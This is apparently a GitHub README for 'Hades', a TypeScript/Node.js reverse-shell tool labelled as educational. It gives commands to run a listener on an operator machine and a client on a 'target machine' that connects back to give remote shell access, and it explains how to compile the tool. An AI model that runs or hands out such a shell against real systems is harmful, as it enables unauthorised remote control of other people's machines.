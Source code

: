 # Hades
Simple reverse shell developed for education purposes.

This program is written in Typescript and is made to run with [Node.js](https://nodejs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![image info](demo.png)

## How to use
Disclaimer
- This reverse shell is for academic purposes, the use of this software is your responsibility.
- This software is still in development, not all the features are implemented yet.

To use this program, 
1) Garb a compiled version of the program.
2) Run `hades -a [port to listen on]` on the main machine.
3) Run `hades -c [admin's port] [admin's ip]` on a target machine.
4) Done !

## Compile using Nexe
To compile from source, you will need to follow the instructions listed below.

1) [Transpile](https://code.visualstudio.com/docs/typescript/typescript-compiling) all `.ts` files into `.js`.
2) Install [Nexe](https://github.com/nexe/nexe).
3) Execute `nexe src/main.js -o bin/hades -t "linux-x64-14.15.3" -r "src/**.js"`.
4) Change `linux-x64` with the os you are using following by the [architecture] of your CPU(https://linuxconfig.org/what-is-my-architecture-is-my-cpu-64-bit-or-32-bit#:~:text=The%20best%20way%20to%20quickly,default%20on%20all%20Linux%20distros.).

Note that the program is already compiled in the `./bin` directory.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Axios` - Used to send requests.
- `WSS` - Used for socket connections.
- `Express` - Used to setup servers.